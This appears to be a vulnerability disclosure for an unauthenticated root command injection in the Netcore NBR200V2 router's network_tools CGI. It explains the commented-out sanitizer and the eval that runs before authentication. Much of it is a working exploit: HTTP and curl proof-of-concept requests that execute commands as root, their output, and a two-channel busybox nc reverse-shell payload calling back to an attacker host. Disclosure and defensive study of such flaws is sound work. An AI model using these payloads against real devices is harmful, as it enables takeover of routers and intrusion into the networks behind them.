

# Netcore NBR200V2 Router

- Vendor: Netcore (磊科)
- Product: Netcore NBR200V2
- Firmware Version: V1.3.241127.071246 (LEDE 17.01, mipsel / MT7621)
- Vulnerability Type: Unauthenticated Command Injection (CWE-78)

## Overview

An unauthenticated command injection vulnerability was identified in the Netcore NBR200V2 router. A remote attacker **without any credentials** can send a crafted HTTP GET request to achieve arbitrary command execution with root privileges on the target device. The issue can be triggered via the following endpoint:

`GET /cgi-bin/network_tools?<payload> HTTP/1.1`

No session token or login is required: the injected command is executed **before** the script performs its session-id (`sid`) check. The web interface (uhttpd) listens on TCP 80/443 (and 23355) by default.

## Vulnerability Details

The vulnerability resides in the shell-script CGI `/www/cgi-bin/network_tools` (served by uhttpd from the document root `/www`).

The script contains a sanitization function `urldecode()` (line 26) whose call site is **commented out** (line 114), and the raw, still-encoded/unsanitized `QUERY_STRING` is parsed with `eval` (line 120) **before** any authentication check (line 127):



```sh
#urldecode and handle command injection
function urldecode()
{
	...
}

#handle query string

#QUERY_STRING=`urldecode "$QUERY_STRING"`        <-- sanitizer disabled (commented out)
while [ true ]; do
	param=${QUERY_STRING%%&*}
	QUERY_STRING=${QUERY_STRING#*&}
	val=${param#*=}
	key=${param%=*}
	eval "${key}='${val}'"                        <-- injection sink (eval), no filtering
	if [ "$param" = "$QUERY_STRING" ] || [ ${#param} -le 0 ]; then
		break
	fi
done

#check sessin id and permission                  <-- auth check happens AFTER the eval
if [ ${#sid} -ne 32 ]; then
	returnerrcode 6
	exit
fi
access=`ubus call session access "{\"ubus_rpc_session\":\"$sid\",\"object\":\"system\",\"function\":\"upgrade\"}" | grep "true"`
...
```

Root cause: because the `urldecode()` call is commented out, shell metacharacters in the query string are not stripped, and the `eval "${key}='${val}'"` parsing loop runs **prior to** the `sid` permission check. A query string such as:

```
a=';<cmd>;:'
```

makes the script evaluate:

```
a='';<cmd>;:''
```

which executes `<cmd>` with root privileges (uhttpd runs as root) and only afterwards returns the "permission denied" error code.

Notes on the payload constraints (derived from the parsing logic and confirmed dynamically):

- exactly **one** `=` may appear before the payload (`key=${param%=*}` strips to the last `=`, `val=${param#*=}` strips to the first `=`; extra `=` unbalance the quotes and busybox `ash` aborts on the `eval` syntax error without executing anything);
- no `&` (query parameter separator) and no raw `#` (URL fragment, stripped by HTTP clients);
- spaces are not decoded by uhttpd, so use `${IFS}` instead of literal spaces;
- the HTTP response is always `{"result":[6]}` ("permission denied") — **the command has already executed anyway** (error ≠ 0 does not mean the injection failed; judge by side effects).

Sibling CGIs in the same directory (`/www/cgi-bin/acbackup`, `/www/cgi-bin/upgrade`) contain the identical `eval` parsing loop, but in those scripts the `urldecode()` call is **not** commented out, and its `while [ $len1 -ne $len2 ]` loop effectively strips the decoded dangerous characters, so they are not injectable via this pattern. Only `network_tools` has the sanitizer disabled.

## Proof of Concept

Step 1 — send the unauthenticated command injection request (writes `id` output into the web root):

```http
GET /cgi-bin/network_tools?a=';id>/www/x.txt;:' HTTP/1.1
Host: <target>
Connection: close

```

Response (permission denied — but the command already executed):

```json
{
"jsonrpc": "2.0",
"id ": 1,
"result": [6]
}
```

Step 2 — read back the result:

```http
GET /x.txt HTTP/1.1
Host: <target>
Connection: close

```

Response body:

```
uid=0(root) gid=0(root) groups=0(root)
```

A reverse shell can be obtained with the following payload (the firmware busybox `nc` only supports `nc IP PORT` — no `-e` — and `&` cannot appear in the query string, so a two-channel scheme is used: channel 1 carries attacker→target commands, channel 2 carries target→attacker output; `tail -f /dev/null` keeps the first `nc` stdin open):

```
a=';tail${IFS}-f${IFS}/dev/null|nc${IFS}<LHOST>${IFS}<LPORT1>|/bin/sh|nc${IFS}<LHOST>${IFS}<LPORT2>;:'
```

A ready-to-use exploit (`exp_netcore_nbr200_network_tools_rce.py`) implementing this two-channel interactive reverse shell is provided alongside this report.

## Impact

An unauthenticated remote attacker can inject arbitrary shell commands through the query string of `/cgi-bin/network_tools` and execute them with **root** privileges, resulting in full compromise of the device (configuration theft, persistent backdoors, lateral movement into the internal network).

## Reproduction Result

The vulnerability was dynamically verified against the firmware emulated with qemu-mipsel + chroot (uhttpd serving `/www` with the `/cgi-bin` prefix, exactly as in the stock `/etc/config/uhttpd`):

```
$ curl -g "http://<target>:8080/cgi-bin/network_tools?a=';id>/www/x.txt;:'"
{"jsonrpc": "2.0","id ": 1,"result": [6]}
$ curl http://<target>:8080/x.txt
uid=0(root) gid=0(root) groups=0(root)
```

An interactive root reverse shell from the emulated firmware back to the attacker host was also confirmed (two-channel busybox-nc scheme, commands issued from the attacker machine):

```
uid=0(root) gid=0(root) groups=0(root)
SHELL_OK
/www
$ cat /etc/openwrt_release | head -2
DISTRIB_ID='LEDE'
DISTRIB_RELEASE='17.01-SNAPSHOT'
```
